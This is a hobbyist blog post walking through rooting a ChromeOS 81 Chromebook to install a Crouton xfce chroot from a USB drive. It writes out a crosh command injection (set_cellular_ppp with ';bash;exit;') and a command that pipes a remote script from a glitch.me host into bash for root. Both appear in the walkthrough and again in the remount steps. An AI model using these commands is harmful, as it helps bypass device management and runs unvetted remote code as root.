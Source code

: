 # Adventures in Chroots

This post is a follow-up to my previous post, [Privelige escalation without un-enrolling](https://rainestorme.github.io/priv-esc-without-unenroll.html). If you haven't read it yet, then you totally should.

After discovering how to run executables off of a USB drive mounted with `exec`, I wanted to get Crouton running, to allow for a graphical environment to run piggybacking off of ChromeOS's X server. After a bit of experimenting, I managed to get everything running as expected, and I'll walk you through the steps below. 

First off, downgrade to ChromeOS 81. It's required for this whole thing to work. Open up crosh and use the `set_cellular_ppp` exploit to get to bash:

```
set_cellular_ppp \';bash;exit;\'
```

Now, we get root...

```bash
bash <(curl https://hostz.glitch.me/80.sh)
```

And after a few seconds, you should be dropped into an SSH session pointing to `localhost`. Plugin your USB drive or SD card (ext4 formatted) now. Find it (it's usually /dev/sda) with `fdisk`:

```bash
fdisk -l
```

Now, we need to create a mount point, and we'll do so in the only mounted filesystem that is read-write: `chronos`'s home directory.

```bash
mkdir -p /home/chronos/usbdrv
```

And we mount the USB drive (replacing /dev/sdX with the block device that points to your USB drive/SD card):

```bash
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv
cd /home/chronos/usbdrv
ls # Verify that the files were mounted.
```
Now we need to download the git repo:

```bash
curl https://github.com/rainestorme/crouton/archive/refs/tags/downloadlink.tar.gz -o crouton.tar.gz
tar -xvf crouton.tar.gz
mv crouton-downloadlink crouton
rm crouton.tar.gz
cd crouton
```

Now that we have the crouton source, we need to add the `host-bin` directory to the `$PATH`. 

```bash
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
```

To install a chroot, we need to also download the crouton installer (I know, It's tedious).

```bash
curl https://raw.githubusercontent.com/dnschneid/crouton/master/installer/crouton -o crouton
chmod +x crouton
```

Finally, we need to install a chroot. A list of targets is available on [here](https://github.com/rainestorme/crouton/tree/master/targets). I personally reccommend `xfce` for lower-end Chromebooks, so that's what I went with in this tutorial.

```bash
./crouton -t xfce -p ./
```

This command will take a bit (for me it took 50 minutes on my `lars` Chromebook) and will eventually prompt you for a username and password. Set them (the password won't be shown in the terminal) and wait for the rest of the process to finish.

Now that you've installed the chroot, you can run `startxfce4` (in the case that you chose an xfce desktop environment) and it will mount and unmount the required filesystems automatically.

In the case that you restarted your terminal at any point after installing the chroot, or you rebooted your chromebook/unplugged the USB drive then you can run the following commands to remount the drive and add the scripts back to your `$PATH`:

```bash
# In crosh
set_cellular_ppp \';bash;exit;\'
# In bash
bash <(curl https://hostz.glitch.me/80.sh)
# In the root SSH prompt
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Remember to replace /dev/sdX, use "fdisk -l" to find your drive
cd /home/chronos/usbdrv
export PATH="/home/chronos/usbdrv/crouton/host-bin:$PATH"
startxfce4
```
